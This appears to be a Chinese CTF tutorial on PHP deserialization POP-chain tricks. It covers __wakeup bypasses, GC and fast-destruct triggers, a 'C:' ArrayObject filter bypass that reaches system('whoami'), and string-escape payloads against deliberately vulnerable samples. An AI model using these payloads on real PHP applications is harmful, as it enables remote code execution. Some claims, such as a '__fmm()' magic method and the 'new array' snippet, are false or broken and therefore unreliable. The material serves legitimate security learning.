# pop链构造的一些其他考点.-先知社区

> **来源**: https://xz.aliyun.com/news/18117  
> **文章ID**: 18117

---

简单的不多讲，讲点重点

# 魔术方法

```
__invoke():当尝试以调用函数的方式调用对象的时候，就会调用该方法 e.g $a()
__construst():具有构造函数的类在创建新对象的时候，回调此方法，简单来说就是new a()的时候，队变量赋初值,当对象创建时会自动调用(但在unserialize()时是不会自动调用的)
__destruct():反序列化的时候，或者对象销毁的时候调用 链尾入手
__wakeup():反序列化unserialize的时候调用,unserialize()时会自动调用
__sleep():序列化serialize前的时候调用
__toString():把类当成字符串的时候调用，找echo $this->a这种、strtolower()、preg_match等）(输出,转换成模板)
__set():在给不可访问的(protected或者private)或者不存在的属性赋值的时候，会被调用
__get():读取不可访问或者不存在的属性的时候，进行赋值（包括私有属性或者没有初始化的属性），（找有连续箭头的 this->a->b）
__call():在对象中调用一个不可访问的方法的时候，会被执行,this调用这个类中不存在的方法，没有public修饰的方法
__fmm():该方法可以执行任意命令
__isset():党对不可访问属性调用isset()或empty()时触发
__unset():当对不可访问属性调用unset()时触发
__set_state()，调用var_export()导出类时，此静态方法会被调用。
__clone()，当对象复制完成时调用
__autoload()，尝试加载未定义的类
__debugInfo()，打印所需调试信息
```

# wakeup()绕过

## cve-2016-7124

影响范围：

* PHP5 < 5.6.25
* PHP7 < 7.0.10

```
<?php
highlight_file(__FILE__);

class ctf{
    public $h1;
    public $h2;

    public function __wakeup()
    {
        echo "wakeup<br>";
    }
    public function __destruct()
    {
        echo "destruct<br>";
    }
}


unserialize($_GET['ctf']);
```

常规payload

GET: ?ctf=O:3:"ctf":2:{s:2:"h1";N;s:2:"h2";N;}

若将"ctf":2的2改成3，使得对象属性个数变大，则会使wakeup不触发。

对象属性个数不匹配：

GET: ?ctf=O:3:"ctf":3:{s:2:"h1";N;s:2:"h2";N;}

## php引用赋值 &

```
<?php
header('Content-Type:text/html;charset=utf-8');
highlight_file(__FILE__);

$a = "test";

$b = &$a;

echo '$a = '.$a;
echo "<br>";
echo '$b = '.$b;
echo "<br>";

// 修改$b的值也会修改$a的值
$b = 'new test';

echo '$a = '.$a;
echo "<br>";
echo '$b = '.$b;
echo "<br>";
```

样例（PHP 7.1.9）:

```
<?php
highlight_file(__FILE__);

class ctf{
    public $key;

    public function __destruct()
    {
        echo "destruct<br>";
        $this->key=False;
        if(!isset($this->wakeup)||!$this->wakeup){
            echo "You get it!";
        }
    }

    public function __wakeup(){
        echo "wakeup<br>";
        $this->wakeup=True;
    }
}


unserialize($_GET['ctf']);
```

若将$this->wakeup和$this->key引用关联起来，那么在\_\_destruct里对$this->key修改时也会把$this->wakeup一起修改了，从而达成if语句的条件。

```
<?php

highlight_file(__FILE__);

class ctf{
    public $key;

    public function __destruct()
    {
        echo "destruct<br>";
        $this->key=False;
        if(!isset($this->wakeup)||!$this->wakeup){
            echo "You get it!";
        }
    }

    public function __wakeup(){
        echo "wakeup<br>";
        $this->wakeup=True;
    }
}
$a = new ctf();
$a->key = &$a->wakeup;
echo serialize($a);
// O:3:"ctf":2:{s:3:"key";N;s:6:"wakeup";R:2;}
```

例题可见

[2024强网杯 | Yiyi](https://xyaxxya.github.io/2024/11/02/2024%E5%BC%BA%E7%BD%91%E6%9D%AF/)**Password Game**

## PHP GC回收机制

**垃圾回收机制 (GC)**：

* PHP 通过引用计数和回收周期来自动管理内存对象。
* 当一个变量被设置为 NULL 或者没有任何指针指向它时，这个变量会变成垃圾，等待 GC 机制回收。
* 当一个对象没有任何引用时，GC 会自动回收这个对象，并调用其 \_\_destruct() 方法进行清理。

**PHP 引用计数**：

* 每当 PHP 创建一个变量时，变量会存储在 zval 这个容器中。
* zval包含变量的类型和值，还包含两个字节的额外信息：

* **is\_ref**：一个布尔值，用于标识变量是否是引用类型，区分普通变量和引用变量。
* **refcount**：引用计数，表示有多少个变量指向这个 zval 容器。每个符号都存储在符号表中，且有作用域。

### PHP GC 回收机制攻击面

* 原理：当 is\_ref 减少时，会触发 \_\_destuct 魔术方法，由此产生的一些 trick 类型攻击

```
<?php
highlight_file(__FILE__);
class test{ 
    public $num; 
    
    public function __construct($num) {
        $this->num = $num; 
        echo $this->num."__construct"."</br>"; 
    }
    
    public function __destruct(){
        echo $this->num."__destruct()"."</br>"; 
    }
    }
$a = new test(1); 
unset($a);
$b = new test(2); 
$c = new test(3);
```

当对象为NULL时也是可以触发\_\_destruct的。



```
<?php
highlight_file(__FILE__);
$flag = "flag{test_flag}";

class B {
  function __destruct() {
    global $flag;
    echo $flag;
  }
}

$a = unserialize($_GET['ctf']);
throw new Exception('nonono');
```

由于异常处理，正常情况下是无法\_\_destruct，这时我们就需要利用GC回收机制来触发\_\_destruct。

```
<?php

class B {
    function __destruct() {
        global $flag;
        echo $flag;
    }
}

$a = array('a'=>new B(),'b'=>NULL);
echo serialize($a);
```

结果

a:2:{s:1:"a";O:1:"B":0:{}s:1:"b";N;}

```
a:2:{s:1:"a";O:1:"B":0:{}s:1:"b";N;}
对象类型:对象个数:{类型:长度:键名;类型:长度:类名:值类型:长度:键名;类型;}
数组:对象个数为2:{str型:长度1:键名为"a";类:长度为1:类名为"B":值为0 str型:值为1:键名为"b":NULL型;}
```

手工把b改为a，就可以再一开始先给a赋值为B类，再将a赋值为NULL，但由于a一开始已经是对象了，所以就会出现对象为NULL的情况，，从而触发\_\_destruct

a:2:{s:1:"a";O:1:"B":0:{}s:1:"a";N;}



## fast destruct

*1、PHP中，如果单独执行unserialize函数进行常规的反序列化，那么被反序列化后的整个对象的生命周期就仅限于这个函数执行的生命周期，当这个函数执行完毕，这个类就没了，在有析构函数的情况下就会执行它。*

*2、PHP中，如果用一个变量接住反序列化函数的返回值，那么被反序列化的对象其生命周期就会变长，由于它一直都存在于这个变量当中，那么在PHP脚本走完流程之后，这个对象才会被销毁，在有析构函数的情况下就会将其执行。*

* 使用索引相同的两个类，后一个类被反序列化时，前一个类会被销毁，从而调用析构函数

```
$unser = serialize(new array(0 => new class1(),1 => new class2(),2 => new class3(),1 => new class4(),2 => new class5()));
$target = unserialize($unser);
```

**流程**

*class1被反序列化*

*class2被反序列化*

*class3被反序列化*

*class4被反序列化，class2被销毁*

class5被反序列化，class3被销毁

这也是一种GC回收机制

* 在unserialize过程中扫描器发现序列化字符串格式有误导致的提前异常退出，为了销毁之前建立的对象内存空间，会立刻调用对象的\_\_destruct(),提前触发反序列化链条。

这种情况只需要破坏原先的字符串格式即可，比如去掉最后的大括号

```
<?php
highlight_file(__FILE__);
error_reporting(0);
$flag = "flag{test_flag}";

class B {
  function __destruct() {
    global $flag;
    echo $flag;
  }
}

$a = unserialize($_GET['ctf']);
throw new Exception('nonono');
```



O:1:"B":0:{}



## php issue#9618

[php issue#9618](https://github.com/php/php-src/issues/9618)提到了最新版wakeup()的一种bug，可以通过在反序列化后的字符串中包含字符串长度错误的变量名使反序列化在**wakeup之前调用**destruct()函数，从而绕过\_\_wakeup

* 7.4.x -7.4.30
* 8.0.x

```
<?php
highlight_file(__FILE__);
class A
{
    public $info;
    private $end = "1";

    public function __destruct()
    {
        echo "__destruct";
        $this->info->func();

    }
}
class B
{
    public $znd;

    public function __wakeup()
    {
        $this->znd = "exit();";
        echo '__wakeup';
    }

    public function __call($method, $args)
    {
        echo "__call ";
    }
}
unserialize($_GET['ctf']);
```

payload

```
<?php
class A
{
    public $info;
    private $end = "1";

    public function __destruct()
    {
        echo "__destruct";
        $this->info->func();

    }
}
class B
{
    public $znd;

    public function __wakeup()
    {
        $this->znd = "exit();";
        echo '__wakeup';
    }

    public function __call($method, $args)
    {
        echo "__call ";
    }
}
$a = new A();
$b = new B();
$a->info=$b;
echo serialize($a);
```

得到

O:1:"A":2:{s:4:"info";O:1:"B":1:{s:3:"znd";N;}s:6:" A end";s:1:"1";}



但是如果给A end去掉几个空格呢？

O:1:"A":2:{s:4:"info";O:1:"B":1:{s:3:"znd";N;}s:6:"Aend";s:1:"1";}



于是就绕过了\_\_wakeup

## C绕过

用原生类把原本的类打包一下，生成以C开头的payload

也是绕过/^[Oa]:[/d]+/过滤的方法之一

**ctfshow 愚人杯3rd [easy\_php]**

```
<?php
error_reporting(0);
highlight_file(__FILE__);

class ctfshow{

    public function __wakeup(){
        die("not allowed!");
    }

    public function __destruct(){
        system($this->ctfshow);
    }

}

$data = $_GET['1+1>2'];

if(!preg_match("/^[Oa]:[/d]+/i", $data)){
    unserialize($data);
}

?>
```

payload

```
<?php

class ctfshow{
    public $ctfshow = "whoami";
    public function __wakeup(){
        die("not allowed!");
    }

    public function __destruct(){
        echo "success";
        system($this->ctfshow);
    }

}

$a = new ctfshow();
$aa = new ArrayObject($a);
echo serialize($aa);


?>
```

C:11:"ArrayObject":60:{x:i:0;O:7:"ctfshow":1:{s:7:"ctfshow";s:6:"whoami";};m:a:0:{}}

然后url编码绕过加号即可

http://127.0.0.1/?1%2B1>2=C:11:"ArrayObject":60:{x:i:0;O:7:"ctfshow":1:{s:7:"ctfshow";s:6:"whoami";};m:a:0:{}}



实现了unserialize接口类的大概率是C打头，列出一些以C开头的原生类：

```
ArrayObject::unserialize
ArrayIterator::unserialize
RecursiveArrayIterator::unserialize
SplDoublyLinkedList::unserialize
SplQueue::unserialize
SplStack::unserialize
SplObjectStorage::unserialize
```

# 字符串逃逸

PHP 在反序列化时，底层代码是以 ; 作为字段的分隔，以 } 作为结尾（字符串除外）并且是根据长度判断内容的

反序列化的过程是有一定识别范围的，在这个范围之外的字符都会被忽略

## 字符变多

```
<?php
highlight_file(__FILE__);
class A{
    public $test1;
    public $test2="hacker";
    public function __construct($test1)
    {
        $this->test1 = $test1;
    }
    
    public function __destruct(){
        if($this->test2==='admin')
        {
            echo "you get it!!!";
        }
    }
}

$test1 = $_POST['test1'];
$a = new A($test1);
$b = serialize($a);
$b = str_replace('x','yy',$b);
echo $b;
var_dump(unserialize($b));


?>
```

先随便写个

```
<?php
class A{
    public $test1;
    public $test2="hacker";
}

$a = new A();
$a->test1 = "xxx123";
$a->test2 = "admin";

echo serialize($a);

?>
```



O:1:"A":2:{s:5:"test1";s:6:"xxx123";s:5:"test2";s:5:"admin";}

会发现被替换成

O:1:"A":2:{s:5:"test1";s:61:"O:1:"A":2:{s:5:"test1";s:6:"yyyyyy123";s:5:"test2";s:5:"admin";}";s:5:"test2";s:6:"hacker";}

读取yyyyyy后，发现没有闭合符号，因此反序列化失败，此时发现123逃逸出来了，这部分是可控的。

于是就可以考虑把yyyyyy123后的所有字符逃逸出来



所以构造payload

xxxxxxxxxxxxxxxxxxxxxxxxxxx";s:5:"test2";s:5:"admin";}



或者整段放入都是可以的



## 字符减少

```
<?php
highlight_file(__FILE__);
class A{
    public $test1;
    public $test2;
    public $test3="hacker";
    public function __construct($test1,$test2)
    {
        $this->test1 = $test1;
        $this->test2 = $test2;
    }

    public function __destruct(){
        if($this->test3==='admin')
        {
            echo "you get it!!!";
        }
    }
}

$test1 = $_POST['test1'];
$test2 = $_POST['test2'];
$a = new A($test1,$test2);
$b = serialize($a);
$b = str_replace('xx','y',$b);
echo $b;
var_dump(unserialize($b));


?>
```



可见 此时yyy";s均被包裹在内，发现没有闭合符号，因此反序列化失败

同样本地构造一个需要的反序列化字符串



O:1:"A":3:{s:5:"test1";s:4:"xxxx";s:5:"test2";s:3:"123";s:5:"test3";s:5:"admin";}

";s:5:"test2";s:3:"123";s:5:"test3";s:5:"admin";}是我们需要的部分



所以我们需要吸收的是";s:5:"test2";s:49:"(20位)

因此

```
test1=xxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxx
&test2=";s:5:"test2";N;s:5:"test3";s:5:"admin";}
```



# 一些特性

## 十六进制+S

## 类名大小写不敏感

## 类内方法调用

* 静态调用

```
A::test();
['A','test']();
```





* 动态调用

```
(new A())::test();

$a = new A();
$a->test();

(new A())->test();

[new A(),'test']();
```

